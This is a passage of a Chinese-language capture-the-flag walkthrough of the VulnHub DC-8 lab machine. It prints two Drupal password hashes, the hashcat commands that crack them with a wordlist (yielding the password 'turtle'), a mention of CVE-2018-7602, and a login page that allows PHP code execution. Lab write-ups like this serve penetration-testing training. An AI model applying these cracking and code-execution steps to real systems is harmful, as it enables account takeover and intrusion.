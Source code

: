 ```
admin 	$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z
john 	$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
```

用 hashcat 跑一下

```
echo "\$S\$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z" > pass.txt
echo "\$S\$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF" >> pass.txt
hashcat -m 7900 -a 0 pass.txt /usr/share/john/password.lst
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC8/7.png)

只跑出 john 的密码 turtle,那先用这个账号登录

回过头去测 CVE-2018-7602 也是一个方法,不过公开的 poc 利用于 Drupal 8,7当然也是受影响的,你可以尝试修改 poc

在爆破的时候顺带扫一下目录,发现有个登陆点 `http://192.168.141.141/user`

登陆后发现有一处直接执行 php 代码的地方

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC8/8.png)
